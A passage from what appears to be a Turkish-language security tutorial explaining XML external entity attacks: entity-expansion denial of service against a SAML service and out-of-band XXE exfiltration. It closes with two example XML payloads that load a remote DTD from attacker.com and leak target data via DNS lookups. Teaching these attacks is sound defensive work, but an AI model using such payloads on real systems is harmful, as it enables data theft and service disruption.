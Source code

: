 - XML içeriği, hedef SAML servisine POST ile gönderilir.
- SAML işlemcisi, XML içeriğini işlemeye başlar ve dış varlıkları genişletir. Bu durumda, zincirin her bir aşaması tekrar tekrar genişletilecektir.
- Zincirin her bir aşaması diğer aşamalara referansla tekrar tekrar genişletildiğinde, XML işlemcisi aşırı derecede uzun bir metin zinciriyle karşılaşır. Bu, hafızanın aşırı kullanılmasına ve işlem süresinin artmasına neden olur.
- XML işlemcisi yetersiz hafıza veya işlem süresi nedeniyle aşırı yüklenir ve hizmetin kullanılamaz hale gelmesine yol açar.

**Out-of-Band (OOB) XXE Attack**, saldırganın XXE saldırısının sonuçlarını hedef sistemden bağımsız bir şekilde dışarıya iletebilmesini sağlayan bir saldırı yöntemidir. Bu saldırı yöntemi, DNS sorguları, HTTP istekleri veya diğer ağ bağlantıları gibi dış iletişim mekanizmalarını kullanır.

Aşağıda Out-of-Band XXE Attack'in çalışma biçimini anlatan adım adım bir örnek verilmiştir:

- Saldırgan, hedef sistem üzerinde XXE açığını keşfeder. Bu açık, hedef sistemdeki bir XML işlemcisinde dış varlıkların işlendiği ve dış iletişim mekanizmalarının kullanılabildiği bir zafiyettir.

- Saldırgan, hedef sisteme gönderilecek olan XML içeriğini hazırlar. Bu içerik, XXE saldırısını gerçekleştirmek için gerekli olan dış varlık bildirimlerini içerir.

- Saldırgan, XML içeriğindeki dış varlık bildirimlerini, Out-of-Band saldırısı için uygun olan dış iletişim mekanizmalarına yönlendirir. Örneğin, saldırgan XML içeriğinde DNS sorguları, HTTP istekleri veya FTP bağlantıları gibi dış bağlantılar kullanabilir.

- Saldırgan, hazırladığı XML içeriğini hedef sisteme gönderir. Bu işlem genellikle bir HTTP POST isteğiyle gerçekleştirilir.

- Hedef sistem, saldırgan tarafından gönderilen XML içeriğini işlemeye başlar. İşlem sırasında, dış varlık bildirimleri çalıştırılır ve dış iletişim mekanizmalarına yönlendirilir.

- Dış iletişim mekanizması kullanılarak, saldırganın kontrolündeki sunucuya veya hedef sistemden bağımsız bir başka hedefe bilgi gönderilir. Örneğin, DNS sorgularıyla saldırganın kontrolündeki bir sunucuya bilgi gönderilebilir veya HTTP istekleriyle saldırganın kontrolündeki bir sunucuya veri aktarılabilir.

- Saldırgan, dış iletişim mekanizması aracılığıyla hedef sistemden elde ettiği bilgileri veya saldırı sonuçlarını alır.

Birkaç XML örneği (bunun nasıl yapıldığını çözmeyi size bırakıyorum):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
<!ENTITY % send SYSTEM "dns://attacker.com/">
%remote;
]>
<root>
  <data>&send;</data>
</root>
```

xxe.dtd:

```
<!ENTITY % send "<!ENTITY &#x25; request SYSTEM 'dns://attacker.com/?domain=mytarget.com'>">
%send;

```
